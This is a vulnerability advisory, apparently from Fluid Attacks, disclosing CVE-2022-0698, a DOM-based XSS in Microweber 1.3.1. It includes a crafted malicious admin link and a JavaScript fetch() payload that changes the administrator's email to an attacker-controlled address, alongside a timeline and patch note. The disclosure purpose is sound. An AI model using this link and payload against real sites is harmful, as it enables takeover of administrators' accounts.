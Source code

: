 ```yaml
---
slug: advisories/garrix/
title: Microweber 1.3.1  -  DOM XSS to Account Takeover
authors: Carlos Bello
writer: cbello
codename: garrix
product: Microweber 1.3.1
date: 2022-09-19 09:00 COT
cveid: CVE-2022-0698
severity: 8.8
description: Microweber 1.3.1  -  DOM XSS to Account Takeover
keywords: Fluid Attacks, Security, Vulnerabilities, Microweber
banner: advisories-bg
advise: no
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Microweber 1.3.1  -  DOM XSS to Account Takeover       |
| **Code name**         | [Garrix](https://en.wikipedia.org/wiki/Martin_Garrix)  |
| **Product**           | Microweber                                             |
| **Affected versions** | Version 1.3.1                                          |
| **State**             | Private                                                |
| **Release date**      | 2022-09-19                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | DOM-Based cross-site scripting (XSS)                                                                   |
| **Rule**              | [371. DOM-Based cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/371)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-0698](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0698)                          |

## Description

Microweber version 1.3.1 allows an unauthenticated user to perform an
account takeover via an XSS on the 'select-file' parameter of the
following URL: http://cbelloatfluid.com/admin/view:modules/load_module:files#select-file=http://cbelloatfluid.com/userfiles/media/default/ovaa-checklist.txt.
It is possible to obtain administrative accounts through a malicious link.

## Vulnerability

The XSS present in Microweber 1.3.1, allows an unauthenticated remote
attacker to perform an Account Takeover. To trigger this vulnerability,
we will need to send the following malicious link to an administrator in
order to hack their account:

* http://cbelloatfluid.com/admin/view:modules/load_module:files#select-file=http://cbelloatfluid.com/userfiles/media/default/ovaa-checklist.php%22onload%3d%22javascript:PAYLOAD%22+///.txt

In the PAYLOAD field we will put the following malicious JS code:

```js
fetch('http://cbelloatfluid.com/api/user/1',{
    method:'POST',
    credentials:'include',
    headers:{
        'Content-type':'application/x-www-form-urlencoded;charset%3dUTF-8'
    },
    body:'id%3d1%26_method%3dPATCH%26username%3dadmin%26email%3dattacker%40fluidattacks.com%26phone%3d\r\n'
})
```

## Exploitation

To exploit this vulnerability, a malicious URL must be sent to the
administrator of the Microweber instance. Once the administrator enters
the link, we will change the email address associated with their account
to one that is under our control.

![normal](https://user-images.githubusercontent.com/51862990/189453637-86fe4ccc-3d3e-4550-a666-b0c947cbee8d.png)

![AccountTakeover](https://user-images.githubusercontent.com/51862990/189451927-3841b94f-9a1c-4c10-b286-6b493a565d36.gif)

![hacked](https://user-images.githubusercontent.com/51862990/189453661-bba7b314-dfdd-4a91-887a-a78b51c112bf.png)

## Our security police

We have reserved the CVE-2022-0698 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Microweber 1.3.1

* Operating System: GNU/Linux

* Web Server: Apache

* PHP Version: 8.1.9

* Database and version: MySQL

## Mitigation

An updated version of Microweber is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/microweber/microweber>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied="2022-09-19"
  confirmed="2022-09-19"
  patched="2022-09-19"
  disclosure="2022-09-19">
</time-lapse>

